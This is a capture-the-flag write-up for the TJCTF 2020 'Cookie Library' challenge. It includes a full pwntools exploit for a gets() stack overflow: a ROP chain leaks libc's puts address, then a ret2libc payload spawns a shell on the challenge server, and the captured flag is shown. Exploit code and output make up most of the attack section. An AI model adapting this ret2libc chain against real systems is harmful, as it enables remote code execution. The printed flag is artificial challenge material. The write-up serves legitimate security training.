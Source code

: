 # TJCTF 2020

## Cookie Library

> 90
>
> My friend loves [cookies](cookie). In fact, she loves them so much her favorite cookie changes all the time. She said there's no reward for guessing her favorite cookie, but I still think she's hiding something.
> 
> `nc p1.tjctf.org 8010`
>
> Written by KyleForkBomb

Tags: _pwn_ _x86-64_ _bof_ _remote-shell_ _rop_ _libc_


## Summary

Leak libc address and version, return to `main` for a second exploit, get a shell, get the flag.

> This is annoyingly similar to [stop](../stop/README.md), so _stop_ and read that.


## Analysis

### Checksec

```
    Arch:     amd64-64-little
    RELRO:    Full RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x400000)
```

Some mitigations.  !GOT.  No shellcode.  But, we have ROPtions (no PIE).  Stack left wide open, too.

> Yes, annoyingly old jokes too.

    
### Decompile with Ghidra

![](main.png)

With the name of the challenge _cookie_ and `srand` right there at the top I thought this was going to be a homebrew canary, or at least a conditional based on a predictable PRNG.  Given how this is pretty much the same as [stop](../stop/README.md), but for more points, it makes me wonder if someone messed up.

Anyway, line 22, our old friend `gets` will get the job done.  No loop, so again, return to main.

`local_58` is `0x58` bytes above the return address:

```
             undefined8        RAX:8              <RETURN>
             undefined4        Stack[-0xc]:4      local_c
             undefined1        Stack[-0x58]:1     local_58
```

Both attacks will write out `0x58` bytes to get to the return address.


## Exploit

### Attack Plan

1. Leak libc address and version and return to main
2. Get a shell, get the flag


### Leak libc address and version and return to main

```python
#!/usr/bin/python3

from pwn import *

#p = process('./cookie')
#libc = ELF('/lib/x86_64-linux-gnu/libc.so.6')
p = remote('p1.tjctf.org', 8010)
libc = ELF('libc-database/db/libc6_2.27-3ubuntu1_amd64.so')

binary = ELF('./cookie')

context.clear(arch='amd64')
rop = ROP('cookie')
try:
    pop_rdi = rop.find_gadget(['pop rdi','ret'])[0]
except:
    print("no ROP for you!")
    sys.exit(1)

p.recvuntil('Which is the most tasty?\n')

payload  = b''
payload += 0x58 * b'A'
payload += p64(pop_rdi)
payload += p64(binary.got['puts'])
payload += p64(binary.plt['puts'])
payload += p64(binary.symbols['main'])

p.sendline(payload)
p.recvline()
_ = p.recv(6)
```

Since there's no PIE we do not need to worry about leaking the base process address.  All we need is a `pop rdi` gadget and have `puts` emit its own address.

After sending `0x58` bytes to get to the return address, we just pop the address of `puts` from the GOT, then call `puts` to emit it, and then return to main for a second run.

With the `puts` address leaked (`_ = p.recv(6)`) we can search for the version using the [libc-database](https://github.com/niklasb/libc-database) `find` command with the last three nibbles of the `puts` address:

```
# libc-database/find puts 0x9c0 | grep -v 386
http://ftp.osuosl.org/pub/ubuntu/pool/main/g/glibc/libc6_2.27-3ubuntu1_amd64.deb (id libc6_2.27-3ubuntu1_amd64)
```

Then rerun with:

```
libc = ELF('libc-database/db/libc6_2.27-3ubuntu1_amd64.so')
```

to then leak the base address of libc:

```
puts = u64(_ + 2*b'\x00')
print('puts:',hex(puts))
baselibc = puts - libc.symbols['puts']
print('baselibc:',hex(baselibc))
```

> You'll know you got this right if the last three digits of the libc address is all zeros.  See output below.


### Get a shell, get the flag

```python
p.recvuntil('Which is the most tasty?\n')

payload  = b''
payload += 0x58 * b'A'
payload += p64(pop_rdi + 1)
payload += p64(pop_rdi)
payload += p64(baselibc + next(libc.search(b"/bin/sh")))
payload += p64(baselibc + libc.symbols['system'])

p.sendline(payload)
p.interactive()
```

> The extra `ret` (`payload += p64(pop_rdi + 1)`) is required to align the stack, see [Blind Piloting](https://github.com/datajerk/ctf-write-ups/blob/master/b01lersctf2020/blind-piloting/README.md) for a lengthly example and explanation.

For the second pass, align the stack, pop the address of the string `/bin/sh` from libc, and then _return_ to `system` to get a shell:

```
# ./exploit.py
[+] Opening connection to p1.tjctf.org on port 8010: Done
[*] '/pwd/datajerk/tjctf2020/cookie/libc-database/db/libc6_2.27-3ubuntu1_amd64.so'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      PIE enabled
[*] '/pwd/datajerk/tjctf2020/cookie/cookie'
    Arch:     amd64-64-little
    RELRO:    Full RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x400000)
[*] Loaded 14 cached gadgets for 'cookie'
puts: 0x7f6b52bfe9c0
baselibc: 0x7f6b52b7e000
[*] Switching to interactive mode
I'm sorry but we can't be friends anymore
$ cat flag.txt
tjctf{c00ki3_yum_yum_mmMmMMmMMmmMm}
```
